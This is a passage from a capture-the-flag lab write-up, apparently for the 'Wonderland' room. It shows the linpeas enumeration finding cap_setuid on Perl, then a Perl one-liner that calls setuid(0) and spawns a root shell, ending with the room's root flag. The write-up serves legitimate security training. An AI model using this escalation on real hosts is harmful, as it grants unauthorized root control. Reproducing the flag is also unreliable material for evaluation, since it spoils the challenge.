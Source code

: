 Also checked crontab, but we have none, checked the files owned by hatter, nothing we can exploit. Let's upload [linpeas](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh). Make sure you run all tests (`linpeas.sh -a`).

The interesting stuff is about Perl:

~~~
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
~~~

Go to https://gtfobins.github.io/gtfobins/perl/ to check the capabilities section of Perl. Let's get root access:

~~~
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# whoami
root
root@wonderland:~# cat /home/alice/root.txt 
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
~~~

Root flag: `thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
